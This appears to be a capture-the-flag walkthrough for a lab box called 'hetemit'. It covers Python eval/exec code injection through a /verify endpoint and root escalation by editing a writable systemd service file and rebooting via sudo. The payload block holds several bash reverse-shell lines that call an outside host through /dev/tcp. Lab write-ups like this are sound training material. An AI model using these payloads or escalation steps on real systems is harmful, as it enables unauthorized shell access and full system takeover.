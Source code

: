 ### Hints since I'm in rush

There are two webapps running on non-standard ports.

Focus on the /verify endpoint. Try different inputs in the code parameter.

Look at writable files and check your sudo permissions. 

### Webapps
`?code=XXX` first then change/covert to POST

1+1 to discover the SSRF

##### Python stuff
https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1

Exec()

exec() is similar to eval() as they both have the ability to execute Python code from a given string input. The following program could be exploited in the same way as above:
```
def addition(a, b):
  return exec("%s + %s" % (a, b))addition(request.json['a'], request.json['b'])
  ```

```payloads for Eval()
"a":"__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1')#", "b":"2"
"__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1')#"
__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1')#
__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1') <--- working
```

### Foothold

```bash
[cmeeks@hetemit restjson_hetemit]$ pwd
pwd
/home/cmeeks/restjson_hetemit
```

### sudo -l
https://security.stackexchange.com/questions/246288/sudo-usr-sbin-halt-usr-sbin-reboot-usr-sbin-poweroff-how-to-leverag

The answer can be simple. Just like how you're doing privilege escalation by using cronjobs. You find a writable file and put your payload in then wait.

`sudo -l` gives "/usr/sbin/halt", "/usr/sbin/reboot", "/usr/sbin/poweroff" that means one thing here. You can reboot the machine as ROOT.

So, you need to look for some writable configuration files that trigger when start/reboot. `find . -writable` on /etc or just run linpeas.

The file is most likely owned by root. But read and writable in our favour. e.g.
```
ls -lh /etc/systemd/system/some.service
-rw-rw-r-- 1 root rob /etc/systemd/system/some.service
```
Maybe the file is running by root, then you find the exec line add `ExecXXX: you evil payload here`.

Or change the runner of it if that's not triggered by root in default. `User: low_level_user -> root`

### Find all files that are writable by the current user
```bash
find . -writable
```
```
ls -lh /etc/systemd/system/pythonapp.service
-rw-rw-r-- 1 root cmeeks 299 Sep 19 03:17 /etc/systemd/system/pythonapp.service
```

You have write privileges over /etc/systemd/system/pythonapp.service

re-shell got root
